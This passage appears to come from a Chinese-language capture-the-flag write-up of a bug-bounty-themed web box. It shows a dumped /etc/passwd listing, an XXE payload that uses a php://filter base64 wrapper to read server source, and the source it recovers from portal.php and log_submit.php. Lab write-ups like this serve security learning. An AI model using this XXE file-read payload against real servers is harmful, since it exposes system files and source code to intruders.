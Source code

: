     nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    ```
    - 觀察 `/etc/passwd` 可以猜測，使用者帳號應該是
    - development
- 也可以透過 php 轉 base64 方式讀取原始碼

    ```
    <!DOCTYPE a [ <!ENTITY b SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/tracker_diRbPr00f314.php"> ]>
    ```

- `portal.php`
    ```
    <html>
    <center>
    Portal under development. Go <a href="log_submit.php">here</a> to test the bounty tracker.
    </center>
    </html>
    ```

- `log_submit.php`
    ```
    <html>
    <head>
    <script src="/resources/jquery.min.js"></script>
    <script src="/resources/bountylog.js"></script>
    </head>
    <center>
    <h1>Bounty Report System - Beta</h1>
    <input type="text" id = "exploitTitle" name="exploitTitle" placeholder="Exploit Title">
    <br>
    <input type="text" id = "cwe" name="cwe" placeholder="CWE">
    <br>
    <input type="text" id = "cvss" name="exploitCVSS" placeholder="CVSS Score">
    <br>
    <input type="text" id = "reward" name="bountyReward" placeholder="Bounty Reward ($)">
    <br>
    <input type="submit" onclick = "bountySubmit()" value="Submit" name="submit">
    <br>
    <p id = "return"></p>
    <center>
    </html>
    ```
